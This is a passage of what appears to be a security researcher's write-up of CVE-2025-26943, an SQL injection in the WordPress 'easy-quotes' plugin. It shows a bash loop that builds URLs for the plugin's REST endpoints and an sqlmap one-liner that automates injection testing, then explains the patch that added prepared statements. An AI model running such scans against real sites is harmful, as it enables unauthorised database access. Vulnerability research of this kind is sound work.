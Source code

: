 ```php
  "http://localhost:8000/wp-json/layart/v1/fonts-categories"
  "http://localhost:8000/wp-json/layart/v1/font-variants"
)

# List of parameters to rotate
params=(
  "amount"
  "cat"
  "family"
  "id"
  "mode"
  "per_page"
  "title"
  "variant_id"
)

# Loop through each endpoint and each parameter
for endpoint in "${endpoints[@]}"; do
  for param in "${params[@]}"; do
    url="${endpoint}?${param}=test"
    echo "$url"
    
  done
done
```
![Image](/images/cve-2025-26943/sqlall.png)

Then i will pass all this urls to sqlmap to automate the process 
```sh
for i in $(cat sql.txt);do echo -----$i-----;sqlmap -u $i* --dbms=mysql --batch;done
```
![Image](/images/cve-2025-26943/sqlmapall.png)

This is what sqlmap identified
![Image](/images/cve-2025-26943/sqlmap1.png)
![Image](/images/cve-2025-26943/sqlmap2.png)

So we have discovered another endpoint `fonts-variants` with `family` parameter is vulnerable to SQL Injection

### Patch Diffing
Now, let’s take a look at the patch that was used to prevent the vulnerability, We can see the patch information on WordPress from [here](https://plugins.trac.wordpress.org/changeset?old_path=/easy-quotes/tags/1.2.2&new_path=/easy-quotes/tags/1.2.3&sfp_email=&sfph_mail=). As we can see, they have perpared statment for all SQL queries
![Image](/images/cve-2025-26943/diffpatch.png)

### Resources
https://nvd.nist.gov/vuln/detail/CVE-2025-26943
https://wpscan.com/vulnerability/59f1db8b-0da8-4244-9154-8c59354e36cf/